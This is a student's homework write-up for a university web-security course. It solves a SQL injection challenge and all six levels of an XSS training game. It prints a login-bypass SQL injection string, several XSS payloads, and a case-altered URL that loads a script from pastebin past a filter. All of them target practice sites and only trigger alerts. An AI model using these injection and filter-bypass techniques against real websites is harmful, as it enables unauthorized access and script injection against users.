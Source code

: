 # Writeup 1 - Web I

Name: Josiah Rapp
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Josiah Rapp


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)

Ironically i found this one the hardest of the two because I was overthinking. I first tried some local and remote file inclusion using a php web shell, and that did not work in the slightest. I then reread the description and got the hint yall were giving and then changed my approach to a SQL injection instead. I tried the injection from the lecture slides, however that did not work... stumped I made a piazza post. The answer to that helped steer me in the correct direction, and entered a SQL snippet that would always return true to trick the database into dumping it's contents. 

that snippet was admin' || '1'='1'-- - and the flag is CMSC389R-{y0u_ar3_th3_SQ1_ninj@}

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

The first one level was fairly simple; insert a <script> tag with alert in the middle and you’re good:
<script> alert(“test”) </script>

From here on out I used the hints provided by the website:

The second level mentioned looking at the img tag and the onerror attribute. After a lot of trial and error I discovered that if there is an error thrown, it will execute the onerror attribute. So the next logical step was to do onerror=“javascript:alert(“test”)” and that worked.

The third level required some research on escaping quotes in the URL, which would be applicable to level 4 as well. The solution was to escape the specific image url with ‘’ and insert another onerror=alert(“test”) into the URL, that way when it loaded up, it detects an error and calls our function. The url looked like this: https://xss-game.appspot.com/level3/frame#3'onerror='alert("test")'

Level four requires character escaping as well, but this time it’s a little more convoluted. The hints told me to enter a single quote and note the error console, which read: Uncaught SyntaxError: missing ) after argument list. The second hint mentions HTML encoding, so I looked up the value for semi-colon, which was %3B. I tried using this encoding to display the alert like so: https://xss-game.appspot.com/level4/frame?timer=)%3Balert(1)%3B however that only resulted in the message “Your timer will executed in );alert(1); seconds.” Which…. Is not desirable. I tested that URL with ‘startTimer(‘’); appended on to the end as well, but that did not work. I tried a dummy statement that would wrap around to the ‘) at the front: var v = (‘ in order to mask the alert in the middle and that worked.

The hints, specifically the 3rd one, helped a lot. Reading the source code, we learn that the page redirects based on what is after the next= in the URL. If one had already loaded up the signup page, next is already being looked at/might be populated, so in order to override this you must immediately load a URL with your payload set, as opposed to entering it once the Dom renders. Navigating to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("test") THEN entering an email and clicking next will jump to the alert instead.

The final level is a remote file hosting, which we discussed in class. Messing around on the website, I deduced that after the frame# section of the URL, the website reads in a file location. Great, now we can begin the actual exploitation. First I made a pastebin post that hosted alert(“test”), converted it to raw, then pasted the link after the #. This did not work, so I had to examine the source code. Turns out it excludes anything with https in it, however ONLY https because they did not take cMSC330 and did not make an exhaustive regex meaning their safeguard is not case sensitive. Changed the casing of the pastebin link and it worked: https://xss-game.appspot.com/level6/frame#httPs://pastebin.com/raw/LBVsTuce

### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
